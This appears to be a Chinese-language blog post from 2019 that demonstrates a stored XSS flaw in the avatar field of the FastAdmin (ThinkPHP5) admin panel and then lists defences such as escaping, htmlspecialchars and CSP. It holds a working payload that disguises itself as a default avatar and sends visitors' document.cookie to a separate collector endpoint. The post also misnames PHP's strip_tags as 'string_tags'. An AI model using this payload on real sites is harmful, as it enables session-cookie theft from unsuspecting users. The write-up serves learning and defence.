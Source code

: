 ```yaml
---
layout:     post
title:      XSS 攻击简单实现及防御
subtitle:   
date:       2019-11-21
author:     liuxu379
header-img: img/home-bg-o.jpg
catalog: true
tags:
 - PHP
 - XSS
 - Web安全
---
```





## 说明
之前项目里面用到了基于 **ThinkPHP5** 框架开发的 **Fast Admin** 开源项目，简单测试了一下，发现在个人资料页面，头像参数(**avatar**)未过滤特殊字符，导致存在 **XSS** 存储型漏洞。

----------

## 利用 XSS 窃取 Cookie


#### 准备
- **Fiddler**
- 接收 **Cookie** 的接口
- 数据库
- **Chrome**


进入会员中心-个人资料页面，配置好 **Fiddler** 对浏览器数据进行拦截。
![enter image description here]({{site.url}}/img/post-bg-xss.jpg?raw=true)

----------


#### 修改参数

此处使 img 提前闭合，并赋予错误的值，触发 **onerror**。
![enter image description here]({{site.url}}/img/post-bg-xss-1.jpg?raw=true)

将 **avatar** 参数改为以下代码并提交：
```
1" onerror="var url = 'http://192.168.40.2:98/assets/img/avatar.png'
var targetUrl = 'http://192.168.40.2:83/api/index/getCookie?cookie='
this.setAttribute('src', url)
setTimeout(function(){$.get(targetUrl.concat(document.cookie));},5000)
```

![enter image description here]({{site.url}}/img/post-bg-xss-2.jpg?raw=true)

> getCookie 用来接收 Cookie 参数并存入数据库，当任意用户加载当前用户头像时，会显示默认头像(用来伪装)，且将用户Cookie传到接口。

----------


## 防御
#### 前端
- HTML节点或属性中通过replace()方法使用正则表达式转义'<'、'>'、单引号、双引号和空格；
- JS中通过stringify()将对象或数组转换为JSON字符串；

#### PHP
- 使用内置函数进行转义
	- string_tags()，过滤所有HTML标签；
	- htmlspecialchars(value, ENT_QUOTES)，将'<'、'>'、单引号、双引号和&符号转化为HTML实体代码；
	
- 使用 DOM 白名单；
- 使用 Github 第三方库；
- 使用 CSP ;

----------


## 结束
这里只是简单利用一下，目的是为了强化自己对 **XSS** 漏洞危害的认知。后面也要经常关注安全方面的知识。
